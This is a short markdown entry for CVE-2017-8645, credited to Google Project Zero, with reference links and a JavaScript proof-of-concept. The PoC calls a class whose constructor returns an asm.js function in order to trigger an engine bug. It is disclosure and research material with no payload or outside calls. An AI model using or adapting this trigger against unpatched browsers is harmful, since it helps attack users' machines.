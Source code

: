 # CVE-2017-8645

- Fix: Aug 2017
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
class MyClass {
    f(a) {
        print(a);
    }

    constructor() {
        'use asm';
        function f(v) {
            v = v | 0;
            return v | 0;
        }
        return f;
    }

    f2(a) {
        print(a);
    }
}

MyClass(1);
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2017-8645)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1271)
